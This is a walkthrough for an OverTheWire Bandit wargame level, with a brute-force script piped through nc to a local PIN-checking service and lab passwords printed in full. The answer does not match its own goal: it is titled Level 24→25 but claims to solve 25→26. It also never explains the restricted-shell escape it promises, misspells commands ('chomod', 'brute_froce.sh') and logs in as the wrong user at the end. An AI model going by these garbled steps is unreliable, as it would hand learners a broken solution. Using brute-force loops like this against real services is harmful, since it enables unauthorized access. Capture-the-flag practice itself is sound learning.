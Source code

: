 # Bandit Level 24 → Level 25

## Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not `/bin/bash`, but something else. Find out what it is, how it works and how to break out of it.

## Commands you may need to solve this level

- `ssh`
- `cat`
- `more`
- `vi`
- `ls`
- `id`
- `pwd`

# Answer

To solve Bandit Level 25 → Level 26, you need to understand the shell being used for user bandit26 and find a way to break out of it. Here are the steps:

1. Log into the server for Level 25 using SSH. The command is:

   ```bash
   ssh bandit25@bandit.labs.overthewire.org -p 2220
   ```

   Enter the password when prompted (the password is the one you found in Level 24).

2. Determine if the shell has any limitations or restrictions. You can also use the `id` command to check your current user information:

   ```bash
   id
   ```

3. Explore the file system using basic commands like `ls`, `pwd`, and `cd` to understand the environment.

4. Create a temporary directory for brute-force script:

   ```bash
   mkdir /tmp/level25
   cd /tmp/level25
   ```

5. If the shell allows you to use a text editor like `vim`, you can use it to view and edit files:

   ```bash
   vim brute_force.sh
   ```

6. Paste the script:

   ```bash
   #!/bin/bash

   for i in {0000..9999}; do
        echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
   done
   ```

   This Bash script generates and prints strings by combining a fixed prefix (`VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`) with numbers from `0000` to `9999` using a `for` loop. Each line of output consists of the prefix followed by a number from the specified range.

7. Change permission of the script for it to be executed:

   ```bash
   chomod u+x brute_froce.sh
   ```

8. Execute script:

   ```bash
   ./brute_force.sh | nc localhost 30002 | grep -v "Wrong"
   ```

   ```
   uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
   ```

   The command is used for a brute-force attack against a service running on localhost at port 30002. The script generates combinations, the `nc` command sends them to the service, and `grep` filters out lines indicating unsuccessful attempts. The remaining output may represent successful attempts or some specific response from the service.

   So, when you use `grep -v`, it will output lines from the input that do not contain the specified pattern. It's a way to exclude lines that match a particular expression.

9. Use the obtained password to log in to Level 26 using SSH:

   ```bash
   ssh bandit25@bandit.labs.overthewire.org -p 2220
   ```

Congratulations! You've completed Bandit Level 25 → Level 26. Keep going, and feel free to ask if you have any questions!
